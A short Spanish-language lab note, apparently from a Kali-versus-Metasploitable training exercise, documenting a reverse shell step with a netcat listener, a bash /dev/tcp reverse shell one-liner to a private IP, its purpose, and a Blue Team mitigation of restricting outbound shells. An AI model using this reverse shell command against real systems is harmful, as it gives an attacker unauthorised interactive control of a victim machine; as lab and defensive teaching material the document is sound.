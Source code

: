 # 6. Reverse shell

## Comando
# En Kali (atacante)
# nc -lvnp 4444
# En víctima (Metasploitable)
# bash -i >& /dev/tcp/192.168.10.5/4444 0>&1

## Por qué
Permite al atacante conectarse a la víctima desde el exterior.

## Antes / Después
- Antes: servicio activo y sin control.  
- Después: Blue Team restringe salida de shell reversa.

## Resultado esperado
- Shell interactiva en la máquina atacante.
